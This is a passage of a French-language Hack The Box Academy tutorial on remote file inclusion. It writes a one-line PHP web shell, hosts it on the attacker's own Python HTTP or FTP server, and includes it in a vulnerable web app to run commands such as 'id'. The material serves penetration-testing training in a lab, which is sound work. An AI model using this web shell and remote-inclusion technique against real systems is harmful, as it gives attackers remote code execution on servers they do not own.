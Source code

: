 ```
dsgsec@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

```

Maintenant, tout ce que nous avons à faire est d'héberger ce script et de l'inclure via la vulnérabilité RFI. C'est une bonne idée d'écouter sur un port HTTP commun comme `80` ou `443`, car ces ports peuvent être ajoutés à la liste blanche au cas où l'application Web vulnérable dispose d'un pare-feu empêchant les connexions sortantes. De plus, nous pouvons héberger le script via un service FTP ou un service SMB, comme nous le verrons ensuite.

HTTP
----

Maintenant, nous pouvons démarrer un serveur sur notre machine avec un serveur python de base avec la commande suivante, comme suit :

```
dsgsec@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Servir HTTP sur le port 0.0.0.0 <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

```

Maintenant, nous pouvons inclure notre shell local via RFI, comme nous l'avons fait précédemment, mais en utilisant `<OUR_IP>` et notre `<LISTENING_PORT>`. Nous spécifierons également la commande à exécuter avec `&cmd=id` :

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Comme nous pouvons le voir, nous avons obtenu une connexion sur notre serveur python, et le shell distant a été inclus, et nous avons exécuté la commande spécifiée :

```
dsgsec@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Servir HTTP sur le port 0.0.0.0 <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

IP_SERVEUR - - [SNIP] "GET /shell.php HTTP/1.0" 200 -

```

Conseil : Nous pouvons examiner la connexion sur notre ordinateur pour nous assurer que la demande est envoyée comme nous l'avons spécifié. Par exemple, si nous avons vu qu'une extension supplémentaire (.php) a été ajoutée à la requête, nous pouvons l'omettre de notre charge utile

FTP
---

Comme mentionné précédemment, nous pouvons également héberger notre script via le protocole FTP. Nous pouvons démarrer un serveur FTP de base avec `pyftpdlib` de Python, comme suit :

```
dsgsec@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> démarrage du serveur FTP sur 0.0.0.0:21, pid=23686 <<<
Modèle de concurrence [SNIP] : asynchrone
[SNIP] adresse de mascarade (NAT) : aucune
Ports passifs [SNIP] : aucun

```
